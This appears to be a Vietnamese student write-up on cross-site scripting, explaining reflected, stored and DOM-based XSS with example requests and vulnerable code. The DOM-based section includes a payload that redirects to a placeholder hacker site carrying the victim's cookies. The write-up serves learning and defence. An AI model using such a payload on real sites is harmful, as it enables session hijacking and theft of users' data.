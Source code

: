 - Tìm hiểu XSS và các loại tấn công XSS (XSS là gì, tại sao lại xảy ra lỗi, các loại tấn công phổ biến, cách khai thác + một số cách bypass mà em biết, cách ngăn chặn)
- Dựng lại lab: 3 loại XSS (Reflected, Stored, DOM) <br>
Yêu cầu: Viết lý thuyết lổ hổng 1 cách chi tiết.

# XSS 
## XSS là gì?
- XSS là một lỗ hổng bảo mật cho phép kẻ tấn công chèn thêm vào một loại mã độc(thường là JavaScript) vào một trang web, và khi người dùng truy cập trang web đó mã độc sẽ thực thi trên trình duyệt ngưởi dùng. Điều này cho phép kẻ tấn công lấy được thông tin cá nhân của người dùng, thực hiện các hành động giả mạo hoặc hành động trên trang web thay người dùng.
- Mục đích chính của các cuộc tấn công này là ăn cắp dữ liệu nhận dạng như: cookies, session, tokens... Tấn công XSS được thực hiện ở phía client, phổ biến là thực hiện với HTML và JavaScript.
## Tại sao lại xảy ra lỗi?
- XSS xảy ra khi web không kiểm soát được dữ liệu đầu vào của người dùng . Cụ thể, khi người dùng nhập nhập vào các đầu vào, dữ liệu này có thể chứa ký tự đặc biệt hoặc các mã độc. Và khi không được xử lý đúng thì nó có thể truyền ngược lại cho trình duyệt của người dùng và các đoạn mã độc được thực hiện trên máy người dùng.
- XSS cũng có thể xảy ra khi lưu trữ các dữ liệu nhập vào như bình luận hoặc nội dung mà không qua xử lý. <br>
Qua đó, kẻ tấn công có thể dùng mã độc đó để tấn công, ăn cắp dữ liệu quan trọng ...
## Các loại tấn công phổ biến:
### 1. Reflected XSS
Đây là loại XSS đơn giản nhất. Nó xảy ra khi nhận dữ liệu trong một HTTP request và bao gồm dữ liệu trong phản hồi lập tức theo cách không an toàn. Ví dụ:
```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```
Ứng dụng không thực hiện xử lý dữ liệu, vì vậy kẻ tấn công có thể thực hiện cuộc tấn công:
```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```
Khi người dùng truy cập vào một URL có chứa đoạn mã độc. Khi đó trình duyệt sẽ gửi yêu cầu đến server và server trả về trang web kèm tham số được truyền trên URL. Từ đó, các tham số chứa mã độc đó được thực thi trên trình duyệt người dùng.
### Mức độ của tấn công
Kẻ tấn công có thể kiểm soát được tập lệnh thực thi của trình duyệt người dùng. Ngoài ra có thể:
- Thực hiện hành động trong ứng dụng mà người dùng thực hiện được:
- Xem bất ký thông tin nào có thể xem.
- Sửa đổi thông tin nào có thể sửa đổi.
- Tương tác với người dùng khác để mở rộng tấn công.
### 2. Stored XSS 
Stored XSS xảy ra khi ứng dụng nhận dữ liệu từ nguồn không đáng tin cậy và bao gồm dữ liệu đó trong HTTP response một cách không an toàn. <br>
Giả sử 1 web cho người dùng gửi comment lên 1 blog và được hiện thị đến người dùng khác. Ví dự khi gửi HTTP request:
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```
Sau khi gửi thành công, bất kỳ người dùng nào cũng có thể thấy được comment và phản hồi dưới dạng:
```
<p>This post was extremely helpful.</p>
```
Khi ứng dụng không có xử lý khác, kẻ tấn công sẽ chèn mã độc vào comment đó, khi đó bất kỳ người dùng nào truy cập vào blog đó thì ứng dụng sẽ thực thi mã độc.
#### Mức độ của tấn công
- Kẻ tấn công có thể thực hiện bất cứ hành động nào mà nạn nhân thực hiện được như cuộc tấn công Reflected XSS.
- Điểm khác biệt giữa Stored XSS với Reflected XSS là cuộc tấn công này xảy ra trong chính ứng dụng web đó. Ngoài ra kẻ tấn công không phải tìm cách cho nạn nhân thực hiện hành động mới có thể khai thác được mà ở đây bất kỳ nạn nhân trong ứng dụng gặp phải mã độc đó. Với Stored XSS, kẻ tấn công dễ dàng đạt được mục đích hơn vì nạn nhân bị tấn công thì chắc chắn khi đó người dùng đã login và trong phiên làm việc(session) của web.
- Đối tưởng bị ảnh hưởng với Stored XSS có thể là tất cả những người sử dụng ứng dụng web đó.
### 3. DOM-based XSS
- DOM-based XSS xảy ra khi JavaScript lấy dữ liệu từ nguồn có thể kiểm soát của kẻ tấn công và dữ liệu đó được đưa đưa vào phần thực thi code. Khi người dùng truy cập vào trang web đó, mã độc sẽ được thực thi trong trình duyệt của họ, cho phép kẻ tấn công thực hiện các hành động độc hại, như đánh cắp thông tin người dùng hoặc thực hiện các giao dịch không được ủy quyền. <br>
- Sự khác biệt chính giữa DOM-based XSS và các hình thức XSS khác là trong DOM-based XSS, mã độc được chèn vào và thực thi trực tiếp trên Document Object Model (DOM) của trang web, thay vì thông qua các tài liệu HTML hoặc các yếu tố khác trên trang web. Do đó lỗ hổng này chỉ có thể ảnh hưởng ở client-side. <br>
Giả sử 1 trang web chi phép người dùng tìm kiếm thông tin tài khoản bằng cách nhập vào input và yêu cầu đến máy chủ. JavaScript hiện thị kết quả tìm kiếm: 
```
document.getElementById("search_results").innerHTML = "Result of " + username 
```
Trong trường hợp này, kẻ tấn công sẽ chèn mã độc vào trường tìm kiếm và nhập tên người dùng sau:
```
<script>
  window.location="http://[hacker site]?c="+document.cookie
</script>
```
Khi trình duyệt thực hiện mã độc này sẽ chuyển hướng đến site của hacker kèm cookie và khi đó kẻ tấn công có được cookie và sử dụng với mục đích xấu.
#### Mức độ của tấn công
Giống với các cuộc tấn công khác của XSS, kẻ tấn công có thể ăn căp thông tin quan trọng người dùng, thực hiện các hành động khác ... 



